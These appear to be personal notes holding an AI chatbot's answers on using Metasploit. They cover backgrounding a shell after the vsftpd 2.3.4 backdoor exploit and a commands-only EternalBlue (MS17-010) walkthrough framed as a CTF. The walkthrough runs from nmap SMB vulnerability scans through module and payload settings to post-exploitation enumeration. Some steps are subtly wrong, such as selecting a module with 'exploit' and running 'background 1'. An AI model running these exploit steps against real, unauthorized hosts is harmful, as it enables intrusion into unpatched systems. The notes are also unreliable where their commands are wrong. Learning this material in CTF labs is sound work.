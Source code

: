 - How to background shell in metasploit
	- To background a shell in Metasploit, you can use the `background` command. Here's a step-by-step guide on how to do it:
	  
	  1. Start by launching Metasploit. Open a terminal or command prompt and enter the following command:
	     ```
	     msfconsole
	     ```
	  
	  2. Once Metasploit loads, use the `exploit` command to select and execute an exploit module. For example, if you want to exploit a vulnerable FTP server, you can use the `exploit/unix/ftp/vsftpd_234_backdoor` module. Type the following command:
	     ```
	     use exploit/unix/ftp/vsftpd_234_backdoor
	     ```
	  
	  3. Set the required options for the exploit module. You may need to provide values for options like `RHOST` (target IP address), `RPORT` (target port), or others. Use the `show options` command to view and set the required options. For example:
	     ```
	     set RHOST <target_ip>
	     ```
	  
	  4. Once you have set the required options, run the `exploit` command to launch the exploit against the target:
	     ```
	     exploit
	     ```
	  
	  5. If the exploit is successful and you gain a shell access, you can use the `sessions` command to list active sessions. Identify the session number of the shell you want to background.
	  
	  6. Now, to background the shell and return to the Metasploit console, use the `background` command followed by the session number. For example, if the session number is 1, enter:
	     ```
	     background 1
	     ```
	  
	  7. The shell will be successfully backgrounded, and you will return to the Metasploit console, allowing you to continue using other exploits or modules.
	  
	  Remember to keep an eye on your backgrounded sessions with the `sessions` command in case you need to switch back to a specific session later.
	- How to complete the eternal blue CTF give me the commands only
		- Completing the Eternal Blue CTF (Capture the Flag) challenge requires a combination of technical skills, research, and problem-solving. Here are some steps you can follow:
		  
		  1. Understand the Basics: Familiarize yourself with the concept of the Eternal Blue exploit. Research what it is, how it works, and the vulnerabilities it targets.
		  
		  2. Study Networking and Exploitation: Gain a solid understanding of networking protocols, such as SMB (Server Message Block). Learn about common exploitation techniques and tools used to exploit vulnerabilities like Eternal Blue.
		  
		  3. Set up a Lab: Create a testing environment to practice on. Set up virtual machines with vulnerable systems like Windows XP or Windows 7.
		  
		  4. Research and Analyze: Look for information related to the Eternal Blue CTF challenge. Study any available hints, instructions, or guidelines provided by the CTF organizers. Analyze any provided tools or scripts.
		  
		  5. Exploit the Vulnerability: Use the tools and scripts you obtained in the previous step to attempt to exploit the Eternal Blue vulnerability. Follow the necessary steps carefully, ensuring you're targeting the correct systems and utilizing correct parameters.
		  
		  6. Capture the Flag: Once you successfully exploit the vulnerability and gain access to the target system, search for the flag. The flag may be in the form of a file, text, or key that you need to discover or retrieve.
		  
		  7. Document and Learn: Take notes of your steps, techniques, and any lessons learned during the process. This documentation will help you understand the exploit better and improve your skills.
		  
		  Remember, CTF challenges are designed to be challenging, so don't get discouraged if you face difficulties. Keep researching, practicing, and learning from each attempt.
		- To complete the Eternal Blue CTF, you'll need to utilize the following commands:
		  
		  1. Scan the target for open ports and services:
		      `nmap -p- <target IP>`: This command will scan all ports on the target IP to identify which services are running.
		  
		  2. Enumerate the target's SMB service:
		      `nmap -p 445 --script=smb-vuln* <target IP>`: This script will check for any known SMB vulnerabilities on port 445.
		  
		  3. Exploit the Eternal Blue vulnerability using Metasploit:
		      Launch Metasploit framework using the command: `msfconsole`
		      Search for the Eternal Blue exploit module: 'search ms17-010'
		      Select the appropriate exploit module, usually `exploit/windows/smb/ms17_010_eternalblue`
		      Set the required options, including the target IP: 
		       ```
		       set RHOSTS <target IP>
		       set RPORT 445
		       set PAYLOAD <selected payload>
		       ```
		      Exploit the target system by running the command: `exploit`
		  
		  4. Gain a reverse shell on the exploited system, specifying the appropriate payloads and options.
		  
		  5. Enumerate and escalate privileges as needed to complete the CTF objectives. Use various commands, such as:
		      `whoami`: To check the current user privileges
		      `net user`: To list available users
		      `net group administrators`: To display members of the Administrators group
		      `systeminfo`: To gather system information
		     `tasklist`: To list running processes
		     `reg query`: To query the Windows registry for valuable information
		      `cd`: To navigate through the file system
		     `copy`: To copy files to and from the target system
		  
		  Please note that the use of these commands must comply with the appropriate legal and ethical guidelines. Always obtain proper authorization before conducting any penetration testing activities.
		-
